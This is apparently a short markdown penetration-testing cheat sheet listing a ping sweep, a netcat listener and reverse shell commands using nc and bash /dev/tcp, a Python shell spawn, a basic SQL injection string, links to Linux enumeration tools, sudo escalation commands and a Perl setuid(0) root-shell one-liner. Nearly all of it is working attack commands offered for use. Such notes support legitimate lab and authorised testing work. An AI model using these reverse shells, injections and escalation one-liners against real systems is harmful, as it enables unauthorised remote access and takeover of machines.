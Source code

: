 ### ICMP scan
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

## Initial access

- [:alien: Revshells](https://www.revshells.com/)

### nc reverse shell

Listener
```
nc -nlvp 444
```

Client
```
/bin/sh | nc <ip> 444
# or
bash -c "bash -i >& /dev/tcp/127.0.0.1/444 0>&1"
```

### Escalation payloads
[gtfobins](https://gtfobins.github.io/gtfobins/ssh/)

### Basic Python shell
```
import os
os.system("/bin/bash")
```

### Basic SQL injections
```
' OR name='test';--
```

## Linux privilege escalation / enumeration
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [RustScan](https://github.com/RustScan/RustScan)
- [pspy](https://github.com/DominicBreuker/pspy)
 
### Basic sudo escalation
```
sudo -l
sudo -u theuser <app>
sudo --preserve-env=PATH /some/thing
```

### Perl escalation
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

